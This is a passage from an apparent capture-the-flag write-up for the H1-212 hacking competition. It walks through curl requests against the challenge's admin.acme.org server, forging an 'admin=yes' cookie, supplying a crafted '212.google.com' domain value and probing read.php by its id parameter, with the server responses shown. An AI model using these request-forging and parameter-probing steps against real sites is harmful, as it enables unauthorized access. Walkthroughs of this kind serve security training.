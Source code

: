 ```
HTTP/1.1 418 I'm a teapot
Date: Tue, 14 Nov 2017 17:07:38 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 69
Content-Type: application/json

{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```
The Acme server was configured to request a subdomain containing `212` (in reference to the H1-212 competition). After supplying one, in the form of a `212.google.com` value, the plot started to thicken. 

```
$ curl -i -s -k -X $'POST' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' --data-binary $'{\"domain\":\"212.google.com\"}' 'http://admin.acme.org/index.php'
```

```
HTTP/1.1 200 OK
Date: Tue, 14 Nov 2017 17:08:38 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 27
Content-Type: text/html; charset=UTF-8

{"next":"\/read.php?id=0"}
```

### The "next" step

I decided to first access `read.php` through a basic GET request, in hope of discovering another pertinent clue:

```
$ curl -i -s -k -X $'GET' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' 'http://admin.acme.org/read.php'
```

```
HTTP/1.1 418 I'm a teapot
Date: Tue, 14 Nov 2017 17:11:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 51
Content-Type: application/json

{"error":{"row":"incorrect type, number expected"}}
```

It became evident that data was being passed from `index.php` to `read.php` by way of the `id` value. Supplying an ID of `0` via query-string parameter led to a new JSON response: containing a blank `data` key-value pair:

```
$ curl -i -s -k -X $'GET' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' 'http://admin.acme.org/read.php?id=0'
```
